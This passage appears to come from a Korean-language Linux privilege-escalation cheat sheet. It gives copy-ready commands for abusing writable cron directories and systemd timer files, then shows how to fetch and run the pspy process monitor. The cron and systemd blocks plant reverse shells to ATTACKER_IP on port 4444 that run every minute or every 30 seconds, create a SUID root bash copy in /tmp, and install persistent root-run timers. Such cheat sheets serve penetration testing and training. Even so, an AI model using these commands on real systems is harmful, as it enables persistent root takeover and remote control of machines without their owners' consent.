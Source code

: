 ```bash
# 1. /etc/cron.d/ 디렉토리에 쓰기 권한이 있는 경우
echo '* * * * * root /bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"' > /etc/cron.d/pwn
echo '* * * * * root cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' > /etc/cron.d/suid

# 2. /var/spool/cron/crontabs/ 쓰기 권한
echo '* * * * * /bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"' > /var/spool/cron/crontabs/root

# 3. 사용자 crontab 수정 가능한 경우
(crontab -l 2>/dev/null; echo '* * * * * /tmp/shell.sh') | crontab -
```

### 🔄 systemd 타이머 악용

```bash
# 1. systemd 타이머 서비스 확인
systemctl list-timers
systemctl cat timer_name.timer
systemctl cat timer_name.service

# 2. 서비스 파일이 쓰기 가능한 경우
echo '[Service]' > /etc/systemd/system/pwn.service
echo 'Type=oneshot' >> /etc/systemd/system/pwn.service
echo 'ExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"' >> /etc/systemd/system/pwn.service

echo '[Unit]' > /etc/systemd/system/pwn.timer
echo 'Description=Pwn Timer' >> /etc/systemd/system/pwn.timer
echo '[Timer]' >> /etc/systemd/system/pwn.timer
echo 'OnCalendar=*:*:0/30' >> /etc/systemd/system/pwn.timer
echo '[Install]' >> /etc/systemd/system/pwn.timer
echo 'WantedBy=timers.target' >> /etc/systemd/system/pwn.timer

systemctl daemon-reload
systemctl enable pwn.timer
systemctl start pwn.timer
```

## 🤖 자동화 도구 활용

### 🔍 pspy - 실시간 프로세스 모니터링

```bash
# pspy 다운로드 및 실행
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy64 -O pspy
chmod +x pspy
./pspy

# 또는 32비트 시스템
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy32 -O pspy

# 특정 간격으로 실행
./pspy -pf -i 1000  # 1초마다 확인

# 결과를 파일로 저장
./pspy -pf -i 1000 > pspy_output.txt 2>&1 &
```
